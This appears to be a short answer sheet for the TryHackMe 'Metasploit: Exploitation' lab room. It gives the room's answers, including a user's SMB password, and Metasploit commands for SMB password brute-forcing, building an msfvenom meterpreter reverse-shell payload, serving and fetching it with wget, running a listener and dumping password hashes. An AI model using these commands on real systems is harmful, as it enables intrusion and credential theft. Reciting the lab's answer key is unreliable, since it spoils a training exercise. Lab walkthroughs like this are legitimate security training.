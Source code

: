 LINK: https://tryhackme.com/room/metasploitexploitation#
[Task 2]
How many ports are open on the target system?
<!-- 5 --> nmap -sC -sV -p- -T4 <br>
Using the relevant scanner, what NetBIOS name can you see?
<!-- ACME IT SUPPORT -->

What is running on port 8000?
<!-- webfs/1.21 --><br>
What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task.
<!-- leo1234 --><br>
```
search smb_login
use 0
show options
Now set RHOSTS and pass_file
set pass_file /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt
set rhosts [MACHINE IP]
Run the exploit just by typing “run” or “exploit”
```
[Task 4]
msf5 auxiliary(scanner/smtp/smtp_relay) > info auxiliary/scanner/smtp/smtp_relay

[Task 5]
Same as Task description (Eternal Blue)

[Task 6]
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf

For sharing file
python3 -m http.server 9000

Getting File
wget http://ATTACKING_MACHINE_IP:9000/rev_shell.elf  --> chmod --> execute

Listener
use exploit/multi/handler

set payload linux/x86/meterpreter/reverse_tcp
use linux/gather/hashdump
set session 1
run